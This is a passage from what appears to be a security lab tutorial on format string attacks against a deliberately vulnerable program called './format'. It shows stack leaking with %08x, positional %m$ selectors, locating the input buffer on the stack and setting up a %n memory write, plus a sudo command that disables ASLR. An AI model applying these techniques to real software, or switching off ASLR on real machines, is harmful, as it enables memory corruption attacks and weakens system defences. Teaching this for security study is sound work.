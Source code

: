 ### Transform Format String Attack to a Memory Write

Any string that represents a useful format (e.g. `%d`, `%x` etc.) can be used to discover the vulnerability.

```console
$ ./format "%08x %08x %08x %08x"
00000000 f759d4d3 00000002 ffd59bd4
This is the most useless and insecure program!
```

The values starting with `0xf...` are very likely pointers.
Again, we can use this vulnerability as a information leakage.
But we want more.

Another useful format for us is `%m$` followed by any normal format selector.
Which means that the `m`th parameter is used as an input for the following format.
`%10$08x` will print the `10`th parameter with `%08x`.
This allows us to do a precise access of the stack.

Example:

```console
$ ./format "%08x %08x %08x %08x %1\$08x %2\$08x %3\$08x %4\$08x"
00000000 f760d4d3 00000002 ff9aca24 00000000 f760d4d3 00000002 ff9aca24
This is the most useless and insecure program!
```

Note the equivalence between formats.
Now, because we are able to select *any* higher address with this function and because the buffer is on the stack, sooner or later we will discover our own buffer.

```console
./format "$(python -c 'print("%08x\n" * 10000)')"
```

Depending on your setup you should be able to view the hex
representation of the string "%08x\\n".

**Why do we need our own buffer?**
Remember the `%n` format?
It can be used to write at an address given as parameter.
The idea is to give this address as parameter and achieve memory writing.
We will see later how to control the value.

The next steps are done with ASLR disabled.
In order to disable ASLR, please run:

```console
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

By trial and error or by using GDB (breakpoint on `printf`) we can determine where the buffer starts:

```console
$ ./format "$(python -c 'import sys; sys.stdout.buffer.write(b"ABCD" + b"%08x\n   " * 0x300)')"  | grep -n 41 | head
10:   ffffc410
52:   ffffcc41
72:   ffffcf41
175:   44434241
```
